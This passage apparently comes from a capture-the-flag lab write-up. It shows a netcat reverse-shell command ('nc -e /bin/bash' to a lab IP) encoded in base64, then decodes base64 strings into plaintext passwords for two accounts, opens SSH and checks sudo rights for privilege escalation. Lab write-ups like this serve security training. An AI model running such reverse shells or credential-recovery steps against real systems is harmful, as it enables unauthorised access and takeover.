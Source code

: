 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```

<img width="1125" height="235" alt="image" src="https://github.com/user-attachments/assets/8bc08bd7-7f1a-4aba-97a0-f1be93614a56" />



Exploring the content of the directory. We got another accounts :



webmaster for web stuff - webmaster: bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK



linuxmaster for linux stuff – linuxmaster: bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg== 




It says that ‘both restricted’. These strings look like Base64, obfuscated or double-encoded, which means we need to decode them




<img width="817" height="109" alt="image" src="https://github.com/user-attachments/assets/2babbc29-28d2-4969-81b9-9015d9e81515" />



webmaster for web stuff - webmaster:  mercuryisthesizeof0.056Earths


<img width="888" height="102" alt="image" src="https://github.com/user-attachments/assets/01fcdd3d-7524-46c5-9292-c61cbacac289" />



linuxmaster for linux stuff – linuxmaster: mercurymeandiameteris4880km



open another ssh session, now using the linuxmaster account : 


<img width="693" height="476" alt="image" src="https://github.com/user-attachments/assets/c52d53dd-3a61-431c-b5a1-6a59983d3c67" />



**6. Command & Control**



Objective: Establish control and identify privilege escalation vectors.



Checked the directory but It is empty. Verified the account and check the sudo access : ```sudo -l```



```